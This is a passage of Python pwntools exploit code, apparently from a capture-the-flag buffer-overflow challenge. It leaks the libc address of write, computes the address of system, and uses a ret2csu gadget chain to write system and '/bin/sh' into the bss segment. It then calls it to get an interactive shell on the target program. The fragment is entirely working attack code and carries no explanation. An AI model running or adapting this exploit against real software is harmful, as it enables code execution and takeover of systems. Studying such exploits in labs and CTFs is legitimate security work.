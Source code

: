 ```python
write_addr = u64(sh.recv(8))
print "write_addr: " + hex(write_addr)
libc_base = write_addr - libc.symbols['write']
system_addr = libc_base + libc.symbols['system']
log.success('system_addr: ' + hex(system_addr))
sh.recvuntil('SMASH IT!\n')
print "\n#############sending payload2#############\n"
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(system_addr) + "/bin/sh\0")
sh.recvuntil('SMASH IT!\n')
print "\n#############sending payload3#############\n"
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

